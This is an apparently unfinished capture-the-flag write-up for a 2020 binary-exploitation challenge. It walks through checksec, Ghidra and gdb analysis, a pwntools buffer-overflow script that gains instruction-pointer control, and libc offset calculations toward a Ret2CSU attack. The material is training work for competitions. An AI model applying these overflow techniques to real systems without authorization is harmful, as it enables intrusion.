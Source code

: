 # PWN1

Status: Unsolved

With all binaries, want to start with checking the security structures
```
$ checksec pwn_me
[*] '/home/ubuntu/CCT_2020/PWN/pwn1/pwn_me'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Alright with PIE and NX, we are in for a bit of a treat possibly, but no canary so overflows are possibly.

Ok so now we just run the executable to see what we are working with
```
$ chmod u+x pwn_me
$ ./pwn_me
0x7fc9d969bca0
Cookie Monster ONLY Wants...
PROMPT>ello
PROMPT>^C
```
So we have some sort of address put out, a message, then a never eneding prompt. Does this same behavior happen on the remote service"

```
$ ping www.cybercompetitionteam.com
64 bytes from 64.227.23.177 (64.227.23.177): icmp_seq=1 ttl=38 time=8.87 ms
$ nc 64.227.23.177 1337
0x7f9a13971ca0
Cookie Monster ONLY Wants...
PROMPT>
```
Yep, behavior is the same.

Pumping the binary into Ghidra we see on line 62
```
printf("%p\n",*chunks[7]);
```
This is the pointer being putout, which is pointer partway into this stack buffer.

Dropping this into gdb to manipulate the win funciton:
```
$ gdb pwn_me
> disass main
> b *main+494
> r
> set $rax=1
> c
Segmentation fault
```
So something is happening with the pointers it is referencing if we try and jump it. This tells me we may have to play by the game of the binary, rather than going for an overflow.

In Ghidra in the check cookies function we see
```
    iVar1 = strcmp(input,"snickerdoodles");
    if (iVar1 == 0) {
      iVar1 = 0;
    }
    else {
      iVar1 = strcmp(input,"oatmeal");
      if (iVar1 == 0) {
        iVar1 = 0;
      }
      else {
        iVar1 = strcmp(input,"gingersnap");
        if (iVar1 == 0) {
          iVar1 = 0;
        }
        else {
          iVar1 = strcmp(input,"shortbread");
          if (iVar1 == 0) {
            iVar1 = 0;
          }
          else {
            iVar1 = strcmp(input,"butter");
            if (iVar1 == 0) {
              iVar1 = 0;
            }
            else {
              iVar1 = strcmp(input,"molasses");
              if (iVar1 == 0) {
                iVar1 = 0;
              }
              else {
                iVar1 = strcmp(input,"sugar");
                if (iVar1 == 0) {
                  iVar1 = 0;
                }
                else {
                  iVar1 = strcmp(input,"sugar");
                  if (iVar1 == 0) {
                    iVar1 = 0;
                  }
                  else {
                    iVar1 = strcmp(input,"sugar");
                    if (iVar1 == 0) {
                      iVar1 = 0;
                    }
                    else {
                      iVar1 = strcmp(input,"almond");
                      if (iVar1 == 0) {
                        iVar1 = 1;
                      }
                      else {
                        iVar1 = strcmp(input,"toffee");
                        if (iVar1 == 0) {
                          iVar1 = 0;
                        }
                        else {
                          iVar1 = strcmp(input,"maple");
                          if (iVar1 == 0) {
                            iVar1 = 0;
                          }
                          else {
                            iVar1 = strcmp(input,"fluffernutter");
                            if (iVar1 == 0) {
                              iVar1 = 0;
                            }
                            else {
                              iVar1 = 0;
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
  return iVar1;
}
```

So lets see where entering this into the funciton works for us
```
$ gdb pwn_me
> b get_cookie
> r
snickerdoodles
```
So as long as I have a space afte snickerdoodles, I am fine. So it is sending me back into the function. Let's see whet this all looks like when I enter the inputs it is looking for

```
$ ./pwn_me
0x7fb480ae5ca0
Cookie Monster ONLY Wants...
PROMPT>almond


Segmentation fault (core dumped)
```
Alright, that is interesting, what is happening here?
```
$ gdb pwn_me 
> b *main+494 //right after the return from get_cookie
> r
```

So the `memcpy` call puts the input into another address ... boom, there it is. The puts call (`*main+549) prints everything after the space in almond, so we just need to overflow that until we get to the flag. 

Wait no, we want shell, not a flag. Maybe it is a printf vulnerability?  

Ok, we soldier on, why is the segfault happening? 
```
$ gdb pwn_me
> b *main+0
> reg
RBP  0x555555555620 (__libc_csu_init)
> b *main+559 // the leave of main
> si
> x/dx $rsp
0x00000
```

So something is happening here where the stack is shifting causing the segfault, the question is, can we control that?

Well, lets see if we can overwite rip, get us some options.

Boom, got it with pwntools
```
from pwn import *

p = process("./pwn_me")
payload = "almond "
payload += "A"*417
payload += "B"*8
p.sendline(payload)
print(p.recv())
```

So we have RIP control, we are going to need to leak an address to figure out libc.

Alright, so were is this address pointing?
```
$ python hack.py
0x7f42b752bca0
$ gdb -p=123475
> vmmap 
 0x7f42b752b000     0x7f42b752d000 rw-p     2000 1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
```

Ok, so is this somehwere in the plt or the GOT? Nope, I went through and followed the GOT and the PLT from puts, this is nowhere near there. Where is this? Well thats exactly the thing, it is a libc address. 

So let's see if this address is consistent in libc? 
| PID | Printed Addr | Puts Addr | Difference |
|--|-|-|-|
|11495| `0x7fcff38ffca0`| `0x00007fcff3624070`| 2997296 |
|11511| `'0x7f742f59fca0` | `0x00007f742f2c4070` | 2997296 |

Got it, so we have a libc addr straight up given to us, what next? Ret2CSU. For that, we are going to need the base address of libc.


| PID | Printed Addr | LIBC Base Addr | Difference |
|--|-|-|-|
|11580| `0x7fd22f8a1ca0`| `0x7fd22f4b6000`| 4111520 |
|11596| `0x7f3f0fb3eca0`| `0x7f3f0f753000`| 4111520 |



